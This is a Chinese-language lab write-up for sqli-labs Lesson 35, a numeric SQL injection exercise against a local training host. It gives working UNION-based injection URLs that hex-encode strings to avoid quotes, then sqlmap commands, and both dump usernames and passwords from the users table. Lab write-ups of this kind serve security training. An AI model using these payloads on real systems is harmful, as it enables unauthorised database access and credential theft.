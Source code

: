 ```yaml
---
title: sqli-labs lession-35 GET-不需要绕过AddSlashes-整型
date: 2018-10-15 19:48:11
tags: [sqli-labs]
categories: sql注入
---
```


## 登录界面

![001](/img/sql/Lesson-35/001.png)

## 分析

![002](/img/sql/Lesson-35/002.png)

数字型的注入是不需要用到双引号的,当遇到表名用双引号包起来的时候转成16进制编码的即可。

## 注入

### 判断注入类型

输入单引号报错

![003](/img/sql/Lesson-35/003.png)

![004](/img/sql/Lesson-35/004.png)

通过`http://192.168.75.132/sql/Less-35/?id=1 and 1=2`确定是数字型,如果是字符型应该像第一课一样显示出id=1的内容。

### 获取字段数

`http://192.168.75.132/sql/Less-35/?id=1 order by 3%23`

![005](/img/sql/Lesson-35/005.png)

### 获取数据库名

`http://192.168.75.132/sql/Less-35/?id=-1 union select 1,2,3%23`

![006](/img/sql/Lesson-35/006.png)

`http://192.168.75.132/sql/Less-35/?id=-1 union select 1,(database()),3%23`

![007](/img/sql/Lesson-35/007.png)

### 获取表名

`http://192.168.75.132/sql/Less-35/?id=-1 union select 1,(select group_concat(table_name)from information_schema.tables where table_schema=0x7365637572697479),3%23`

其中原来的`'security'`用`0x7365637572697479`替代,绕过了使用单引号。

![008](/img/sql/Lesson-35/008.png)

### 获取列名

`users`用`0x7573657273`替代。

`http://192.168.75.132/sql/Less-35/?id=-1 union select 1,(select group_concat(column_name)from information_schema.columns where table_schema=0x7365637572697479 and table_name=0x7573657273),3%23`

![009](/img/sql/Lesson-35/009.png)

### 获取字段

`http://192.168.75.132/sql/Less-35/?id=-1 union select 1,(select group_concat(username,0x7e,password) from users),3%23`

![010](/img/sql/Lesson-35/010.png)

## SQLMAP

`sqlmap -u "http://192.168.75.132/sql/Less-35/?id=1" --dbms mysql -v 3 --technique E --flush-session --fresh-queries`

![011](/img/sql/Lesson-35/011.png)

![012](/img/sql/Lesson-35/012.png)

没什么好说的，直接上结果。

`sqlmap -u "http://192.168.75.132/sql/Less-35/?id=1" --dbms mysql -v 3 --technique E -D security -T users --columns --dump`

![013](/img/sql/Lesson-35/013.png)

![014](/img/sql/Lesson-35/014.png)



